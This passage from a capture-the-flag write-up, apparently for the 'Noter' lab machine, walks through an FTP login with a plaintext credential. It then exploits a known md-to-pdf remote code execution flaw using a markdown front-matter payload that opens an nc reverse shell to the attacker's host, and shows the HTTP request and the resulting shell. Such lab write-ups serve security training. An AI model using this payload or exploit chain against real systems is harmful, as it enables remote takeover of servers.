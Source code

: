 ## FTP Session as `ftp_admin`

Leverage this structure to login to the FTP server with the credential `ftp_admin`:`ftp_admin@Noter!`. It contains two timestamped application backup archives.

```bash
$ ftp 10.129.101.16
Connected to 10.129.101.16.
220 (vsFTPd 3.0.3)
Name (10.129.101.16:tgihf): ftp_admin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01  2021 app_backup_1638395546.zip
226 Directory send OK.
```

The most recent application archive contains the most up-to-date source code of the  Noter web application. Going through the web application's endpoints, the `POST /export_note_remote` endpoints takes a `url`, retrieves the contents at that URL, and passes those contents to [md-to-pdf](https://www.npmjs.com/package/md-to-pdf) version 4.1.0. All versions of `md-to-pdf` before 5.0 contain a [remote command execution vulnerability](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) due to how [grey-matter](https://www.npmjs.com/package/gray-matter) processes the input. By hosting a payload and invoking the `POST /export_note_remote` endpoint as `blue` with the URL of the payload, it is possible to execute arbitrary commands on the target.

The payload (`blah.md`):

```md
---js\n((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.17 9000 >/tmp/f"))\n---RCE
```

Host the payload.

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Start a reverse shell listener.

```bash
$ nc -nlvp 9000
listening on [any] 9000 ...
```

Invoke the endpoint.

```http
POST /export_note_remote HTTP/1.1
Host: 10.129.101.16:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.129.101.16:5000
Connection: close
Referer: http://10.129.101.16:5000/export_note_remote
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YpzKmQ.iPgrsXoX0hHoH8o85NZpzbw_L6k
Upgrade-Insecure-Requests: 1

url=http%3A%2F%2F10.10.14.17%2Fblah.md
```

Receive the reverse shell as `svc`. Grab the user flag from `/home/svc/user.txt`.

```bash
$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.17] from (UNKNOWN) [10.129.101.16] 46342
bash: cannot set terminal process group (1248): Inappropriate ioctl for device
bash: no job control in this shell
svc@noter:~/app/web$ id
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
svc@noter:~/app/web$ ls -la /home/svc/user.txt
-rw-r----- 1 svc svc 33 Jun  5 13:47 /home/svc/user.txt
```
